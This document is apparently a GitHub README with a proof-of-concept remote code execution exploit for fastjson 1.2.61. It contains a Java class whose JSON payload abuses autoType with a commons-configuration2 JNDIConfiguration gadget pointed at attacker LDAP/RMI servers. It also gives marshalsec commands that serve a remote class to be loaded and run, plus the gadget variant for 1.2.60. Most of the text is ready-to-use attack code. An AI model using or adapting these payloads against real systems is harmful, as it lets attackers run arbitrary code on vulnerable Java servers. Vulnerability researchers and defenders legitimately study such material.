


# fastjson-1.2.61-RCE


## FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://10.10.20.166:1099/ExportObject\"}";

        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}

//        fastjson 1.2.60
//        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
```
## LDAP PORT 1389

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`

## RMI PORT 1099

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`



## diff poc

```
1.2.60 
org.apache.commons.configuration.JNDIConfiguration
>>>commons-configuration-1.4.jar


1.2.61
org.apache.commons.configuration2.JNDIConfiguration
>>>commons-configuration2-2.0.jar
```

## 参考链接
https://mp.weixin.qq.com/s/PHB3dBgvDGdqPhhB1dFfNA

https://github.com/LeadroyaL/fastjson-blacklist

https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java


